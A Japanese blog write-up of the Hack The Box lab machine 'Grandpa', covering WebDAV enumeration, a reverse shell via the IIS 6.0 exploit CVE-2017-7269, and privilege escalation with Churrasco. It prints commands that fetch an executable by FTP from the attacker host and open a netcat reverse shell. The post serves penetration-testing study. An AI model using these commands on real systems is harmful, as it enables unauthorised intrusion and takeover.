




「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Grandpa」のWriteUpです。

## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [本記事について](#本記事について)
- [探索](#探索)
  - [ポートスキャン](#ポートスキャン)
  - [WevDAVのスキャン](#wevdavのスキャン)
  - [エクスプロイト](#エクスプロイト)
- [内部探索](#内部探索)
- [まとめ](#まとめ)

## 探索

### ポートスキャン

とりあえずNmapを叩いていきます。

``` bash
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 04 Jun 2022 01:01:45 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   WebDAV type: Unknown
|_  Server Type: Microsoft-IIS/6.0
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.16 seconds
```

IISが稼働しているようなのでアクセスしてみました。



あまり情報が取れなかったのでgobusterで探索します。

いくつかのパスが見つかりました。

``` bash
$ gobuster dir -u http://targethost.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 | tee gobuster1.txt

/images               (Status: 301) [Size: 152] [--> http://targethost.htb/images/]
/Images               (Status: 301) [Size: 152] [--> http://targethost.htb/Images/]
/IMAGES               (Status: 301) [Size: 152] [--> http://targethost.htb/IMAGES/] 
/_private             (Status: 403) [Size: 1529] 
```

- Images



- _private



これだけだと攻略の手掛かりにはならなさそうです。

feroxbusterも試してみましたが、特に有益な情報はありませんでした。

``` bash
$ feroxbuster -u http://targethost.htb/  -x asp,aspx -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt | tee feroxbuster.txt
```

### WevDAVのスキャン

続いて、`davtest`を使ってWevDAVの確認を行います。

WevDAVはざっくり言うとHTTPベースのファイル転送機構です。

DAVTestを使うことで、WevDAVが稼働しているかをチェックすることができます。

``` bash
$ /usr/bin/davtest -url http://targethost.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://targethost.htb
********************************************************
NOTE    Random string for this session: raQC3An4
********************************************************
 Creating directory
MKCOL           FAIL
********************************************************
 Sending test files
PUT     jhtml   FAIL
PUT     cfm     FAIL
PUT     cgi     FAIL
PUT     jsp     FAIL
PUT     txt     FAIL
PUT     pl      FAIL
PUT     php     FAIL
PUT     shtml   FAIL
PUT     asp     FAIL
PUT     html    FAIL
PUT     aspx    FAIL

********************************************************
```

参考：[ハッカーはDAVTestでWebDAVが有効なサーバーをテストする(Kali Linux) | AIを武器にホワイトハッカーになる](https://whitemarkn.com/learning-ethical-hacker/davtest/)

参考：[http-webdav-scan NSE script — Nmap Scripting Engine documentation](https://nmap.org/nsedoc/scripts/http-webdav-scan.html)

Nmapの`http-webdav-scan`の結果からいくつかのメソッドが裕子になっていることを確認していたのですが、残念ながらそのまま使用することはできなさそうでした。

### エクスプロイト

しかし、どうやらIIS 6.0のWevDAVには認証をバイパス可能な脆弱性があるようですので、これを利用して任意のコード実行ができそうです。

参考：[Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow - Windows remote Exploit](https://www.exploit-db.com/exploits/41738)

今回は以下のエクスプロイトコードを拝借しました。

参考：[iis6-exploit-2017-CVE-2017-7269](https://gist.github.com/g0rx/693a89197e0b9d1464cab536fdc9f933)

``` bash
root@pentestlab:~# python revshell.py 
usage:iis6webdav.py targetip targetport reverseip reverseport

root@pentestlab:~# python revshell.py 10.10.10.14 80 10.10.14.2 9999
```

これでリバースシェルが取得できました。

しかし、非常に残念なことに今回取得できたシェルではuserフラグの取得はできないようでした。

``` bash
whoami
nt authority\network service
```

というわけで権限昇格を目指していきます。

## 内部探索

とりあえずいつも通りユーザの権限を確認してみます。

``` bash
whoami /pri
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```

`SeImpersonatePrivilege`が有効なようです！

`SeImpersonatePrivilege`とは、サーバがクライアントの権限になりすますことを許可する権限です。

この権限が有効な場合、`Named Pipe Impersonation`などの攻撃が可能になります。

参考：[getsystemの中身｜ラック・セキュリティごった煮ブログ編集部｜note](https://note.com/lacnote/n/nef29b7c6a94f)

参考：[Named Pipe Client Impersonation - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation)

攻撃の方法はいくつかあるとは思いますが、Windows Server 2003で`SeImpersonatePrivilege`が`network service`に割り当てられている場合、Churrascoを使うことで特権が取得できます。

というわけで、書き込み可能フォルダ`C:\wmpub\`にFTPでファイルを転送してエクスプロイトを実行しました。

``` bash
echo open 10.10.14.3 > ftp.txt && echo user user password >> ftp.txt && echo binary >> ftp.txt && echo get c.exe c.exe >> ftp.txt && echo quit >> ftp.txt

ftp -n < ftp.txt
.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.3 9999"
```

これでAdmin権限のシェルを取得できました。



正直Churrascoが何をしているのかはあまり理解していないのですが、ソースは400行程度のようなので今度時間があるときにちゃんと読み解いていこうと思います。。

参考：[Churrasco/Churrasco.cpp at master · Re4son/Churrasco · GitHub](https://github.com/Re4son/Churrasco/blob/master/Churrasco.cpp)

ちなみに、FTPでWindowsに実行ファイルを転送するときは`binary`オプションを使用せずデフォルトのASCIIモードを使用してしまうと、以下のようなエラーが出てくるので注意が必要です。

``` bash
c.exe
This program cannot be run in DOS mode.
```

参考：[privilege escalation - This Program Can not Be Run in DOS Mode - Information Security Stack Exchange](https://security.stackexchange.com/questions/133946/this-program-can-not-be-run-in-dos-mode)

参考：[FTP Binary And ASCII Transfer Types And The Case Of Corrupt Files | JSCAPE](https://www.jscape.com/blog/ftp-binary-and-ascii-transfer-types-and-the-case-of-corrupt-files)

## まとめ

Windowsはエクスプロイトの中身の理解が難しいのであんまりHackしている感がないですね。

ちゃんと理解できるようになりたい。
